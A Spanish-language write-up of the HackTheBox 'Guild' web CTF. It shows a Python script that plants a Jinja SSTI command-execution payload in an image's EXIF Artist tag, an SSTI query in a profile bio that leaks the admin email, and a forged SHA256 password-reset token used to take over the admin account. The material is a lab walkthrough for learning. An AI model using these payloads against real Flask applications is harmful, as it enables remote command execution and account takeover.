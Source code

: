 ```yaml
---
title: Guild Web CTF - HackTheBox
layout: page
permalink: /writeups/HTB/CTF/guild
date: 2025-02-14 11:00:00 +0000
categories: [HacktheBox, CTF, Web]
tags: [HacktheBox, CTF, Web]
image:
  path: /assets/img/cabeceras_genericas/htb.jpg
  alt: Guild Web CTF - HackTheBox
description: >
  Guía de explotación de vulnerabilidades en el CTF HackTheBox Guild Web.
pin: false  
toc: true   
math: false 
mermaid: false 
---
```


# Creación del usuario

![alt text](/assets/img/posts/guild-ctf-htb/image.png)

Creamos un usuario cualquiera de forma sencilla.

Una vez creado podemos iniciar sesión.

![alt text](/assets/img/posts/guild-ctf-htb/image-1.png)

# Creación del payload

Para poder obtener la flag vamos a necesitar crear una imagen .jpg con un tag "artist" 

Script para crear la imagen:

```python
from PIL import Image
import piexif

def create_exif_exploit():
    # Crear una imagen nueva
    img = Image.new('RGB', (50, 50), color='white')
    
    # Crear datos EXIF - El tag Artist está en el IFD principal (0th)
    zeroth_ifd = {
        piexif.ImageIFD.Artist: "{{config.__class__.__init__.__globals__['os'].popen('cat flag.txt').read()}}".encode('utf-8')
    }
    
    # Generar el diccionario EXIF completo
    exif_dict = {"0th": zeroth_ifd, "Exif": {}, "1st": {}, "thumbnail": None, "GPS": {}}
    
    # Convertir el diccionario a bytes
    exif_bytes = piexif.dump(exif_dict)
    
    # Guardar la imagen con los datos EXIF
    img.save('exploit.jpg', 'JPEG', exif=exif_bytes)
    print("Imagen creada con éxito: exploit.jpg")

if __name__ == "__main__":
    create_exif_exploit()

```

Con este script crearemos la imagen con el tag "artist" y podremos obtener la flag que se encuentra en la raiz de la web.

![alt text](/assets/img/posts/guild-ctf-htb/image-2.png)

Una vez subida la imagen para poder ejecutar el payload hay que conseguir acceso a la cuenta de administrador.

# Acceso a la cuenta de administrador

Como sabemos por el código de la web, la cuenta de administrador se genera automáticamente al crear el docker además de que la cuenta de mail generada así como la contraseña son 8 carácteres en hexadcimal generados aleatoriamente.

Esto imposibilita la idea de realizar un ataque de fuerza bruta.

Teniendo esto en cuenta y analizando el comportamiento de la web podemos realizar una inyección SSTI en la bio del usuario que tenemos registrado para poder obtener la el mail de la cuenta de administrador.

## Análisis de código

Si bien en el template de la bio la inyección no se puede llevar a cabo, en la generación de página para compartir el perfil de usuario la situación es diferente.

```python
@views.route("/user/<link>")
def share(link):
    query = Validlinks.query.filter_by(validlink=link).first()
    if query:
        email = query.email
        query1 = User.query.filter_by(email=email).first()
        bio = Verification.query.filter_by(user_id=query1.id).first().bio
        temp = open("/app/website/templates/newtemplate/shareprofile.html", "r").read()
        return render_template_string(temp % bio, User=User, Email=email, username=query1.username)
```

Si observamos las variables que se le pasan al render_template_string, vemos que se pasa el modelo User completo. En Flask/SQLAlchemy podemos usar esto para hacer queries. Por lo tanto podríamos intentar pasar una query consultando el correo de la cuenta de administrador.

`User.query.filter_by (username='admin').first().email`

## Exploit

![alt text](/assets/img/posts/guild-ctf-htb/image-3.png)

Hacemos click donde dice "share profile" y copiamos el link.

![alt text](/assets/img/posts/guild-ctf-htb/image-4.png)

![alt text](/assets/img/posts/guild-ctf-htb/image-5.png)

`4758505255527057@master.guild`

Ahora que tenemos el mail vamos a explotar el forget password.

# Explotando el forget password

Ahora que sabemos el mail de administrador podemos forzar el cambio de contraseña explotando una vulnerabilidad que hemos econtrado en el código.

Necesitamos primero indicar que hemos olvidado la contraseña de la cuenta de administrador con su mail.

Volvemos al login y hacemos click en "Forgot password?", introducimos el mail de administrador y pulsamos el botón "Send".

![alt text](/assets/img/posts/guild-ctf-htb/image-6.png)

Ahora como podemos ver en el código fuente, se genera un hash sha256 con el mail de la cuenta de administrador y esto se pasa a la función changepasswd.

1. Funcion para cambiar generando el hash:

```python
@views.route("/forgetpassword", methods=["GET", "POST"])
def forgetpassword():
    if request.method == "POST":
        email = request.form.get("email")
        query = User.query.filter_by(email=email).first()
        if query:
            # El hash es simplemente el SHA256 del email
            reset_url = str(hashlib.sha256(email.encode()).hexdigest())
```

2. Función para cambiar la contraseña:

```python
@views.route("/changepasswd/<Hash>",methods=["GET", "POST"])
def changepasswd(Hash):
    query = Validlinks.query.filter_by(validlink=Hash).first()
```

Sabiendo esto y que ya hemos generado en la base de datos la petición de cambio de contraseña podemos hacer el siguiente ataque.

Creamos exactamente la misma función que genera el hash del codigo.

```python
import hashlib

# Reemplaza esto con el email que obtuviste
admin_email = "4758505255527057@master.guild"

# Calcular el hash
reset_url = hashlib.sha256(admin_email.encode()).hexdigest()
print(reset_url)
```

Copiamos el hash y lo pasamos a la función changepasswd.

```bash
❯ python3 hashmail.py
336337986c1d078c19ef0aecef621d163fc5acc8feebde5efb2ffd79704f542e
```	
![alt text](/assets/img/posts/guild-ctf-htb/image-7.png)

Con esto conseguimos cambair la contraseña del usuario administrador.

# Obtención de la flag

Ahora que acceso al panel de verificación de imágenes, podemos obtener la flag.

![alt text](/assets/img/posts/guild-ctf-htb/image-8.png)

Si hacemos click en verify ejecutaremos el SSTI y obtendremos la flag.

![alt text](/assets/img/posts/guild-ctf-htb/image-9.png)


